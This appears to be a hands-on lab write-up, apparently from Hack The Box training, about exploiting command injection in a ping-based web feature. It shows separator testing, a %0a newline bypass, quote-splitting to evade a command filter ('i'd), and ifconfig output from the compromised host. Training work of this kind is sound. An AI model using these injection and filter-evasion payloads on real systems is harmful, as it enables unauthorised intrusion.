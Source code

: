 The request strongly implies that this is possibly vulnerable to command injection attack since it's using `ping` command apparently.

Here's the module explaining command injection attack:
https://academy.hackthebox.com/module/109/section/10306

The guessed command line would be;
```
ping {user input}
```

First, let's try different command concatenator;
`;` returns an error "Invalid input" which implies that there's a filter.
So do `&&` and `|`.

I tried `%0a`, and it worked! But when I appended `id` command after that, it returns "Invalid input" again.

Given `cat` command is working, I think there's a filter filtering common commands.

This reference shows how to escape from this;
https://academy.hackthebox.com/module/109/section/1038

I tried `'i'd` command and it worked!
This means that I can even open a reverse shell through this vulnerability!
I additionally tried `'i'fconfig` to see network interfaces.

```bash
br-65c448355ed2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet6 fe80::42:a4ff:fe85:939e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:a4:85:93:9e  txqueuelen 0  (Ethernet)
        RX packets 7569  bytes 18261117 (18.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12254  bytes 2612480 (2.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:d5ff:fe50:22b4  prefixlen 64  scopeid 0x20<link>
        ether 02:42:d5:50:22:b4  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7  bytes 690 (690.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.229.147  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb0:c480  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb0:c480  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:c4:80  txqueuelen 1000  (Ethernet)
        RX packets 125567  bytes 10836535 (10.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 54497  bytes 29051418 (29.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.0.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:feb0:b37e  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:b3:7e  txqueuelen 1000  (Ethernet)
        RX packets 2070  bytes 134483 (134.4 KB)
        RX errors 0  dropped 59  overruns 0  frame 0
        TX packets 74  bytes 6436 (6.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
<SNIP>
```
